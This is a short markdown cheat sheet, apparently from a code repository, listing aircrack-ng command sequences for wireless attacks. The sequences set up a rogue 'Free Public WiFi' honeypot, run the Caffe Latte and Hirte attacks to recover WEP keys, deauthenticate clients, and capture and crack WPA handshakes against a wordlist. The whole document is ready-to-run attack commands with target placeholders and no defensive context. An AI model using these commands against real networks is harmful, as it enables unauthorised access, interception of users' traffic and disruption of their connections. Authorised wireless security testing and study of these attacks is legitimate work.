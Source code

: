 ## Mis-Association Attack (Honeypot)
```bash
airmon-ng start wlan0
airbase-ng -P -C 30 -e "Free Public WiFi" -c [channel] mon0
ifconfig at0 up
dhclient at0

```
## Caffe Latte Attack (Client WEP Key Retrieval)
```bash
airmon-ng start wlan0
airbase-ng -e "test" -c [channel] -W 1 -Z 4 mon0
airodump-ng -c [channel] --bssid [spoofed MAC] -w lattekill mon0

```
## De-Authenticating the Client
```bash
airmon-ng start wlan0
airodump-ng mon0
aireplay-ng --deauth 5 -a [AP MAC] -c [client MAC] mon0


```
## Cracking WEP with Hirte
```bash
airmon-ng start wlan0
airodump-ng mon0
aireplay-ng --interactive -b [target MAC] -h [your MAC] mon0
aircrack-ng -z -n 64 -b [target MAC] wephirte.cap


```
## AP-less WPA cracking
```bash
airmon-ng start wlan0
airbase-ng -e [target ESSID] -c [channel] -a [target BSSID] -Z 4 mon0
airodump-ng -c [channel] --bssid [target BSSID] -w ap-less mon0
aireplay-ng --deauth 5 -a [target BSSID] -c [client MAC] mon0
aircrack-ng -w /path/to/wordlist.txt ap-less-01.cap
```